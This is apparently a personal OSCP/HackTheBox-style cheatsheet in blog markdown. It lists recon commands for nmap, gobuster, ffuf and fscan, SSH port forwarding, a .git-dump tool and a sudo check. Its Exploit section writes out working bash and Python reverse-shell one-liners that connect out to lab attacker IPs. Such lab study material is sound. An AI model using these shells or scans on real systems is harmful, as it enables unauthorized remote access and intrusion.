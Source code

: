 ```yaml
---
title : "Cheatsheet"
author: imdang 🤞🤞
date: 2024-10-23 11:33:00 +0800
categories: [Cheatsheet]
tags: [nmap,gobuster,ffuf,jadx,linpeas,OSCP]
---
```


<!-- ![image](https://user-images.githubusercontent.com/59029171/139866885-bc8556d4-7979-4d42-9d4e-027c0900f245.png) -->

<!-- **Node is about enumerating an Express NodeJS application to find an API endpoint that discloses the usernames and password hashes. To root the box is a simple buffer overflow and possible by three other unintended ways.** -->

---

# Recon

## Scan

### Nmap

```shell
nmap -sV -sC --min-rate=1000 -p- <IP> -o nmap
```

### Gobuster



```shell
Dirsearch
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u <IP/DNS>
Break status code
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u <IP/DNS> -b <BREAK_STATUSCODE>
```

### ffuf

```shell
Subdomain search
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H “Host: FUZZ.site.com” -u http://site.com
```

### fscan
Scan host in network
Shadow1ng/fscan (github.com)
```shell
./fscan -h 172.0.0.1/24
```

### Zeek with pcap
```shell
zeek -Cr 0.pcap
```
However password in zeek is <hidden> to config for zeek to show in [Ippsec-Cap](https://www.youtube.com/watch?v=O_z6o2xuvlw)

### SSH Port Forwarding

```shell
ssh -L <PORT IN LOCAL>:<IP>:<PORT IN SERVER> username@<IP SERVER>
```

# Exploit

### Bash reverse shell

```shell
bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'
```

### Python reverse shell

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.30",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
### Stable reverse shell
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### GitHack - Exploit ```.git``` 
 lijiejie/GitHack: Khai thác tiết lộ thư mục `.git` (github.com)
```shell
Githack
python GitHack.py http://site.htb/.git/
```


# Privilege Escalation 

### Check sudo file permissions

```shell
sudo -l
```

# Other Tools

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
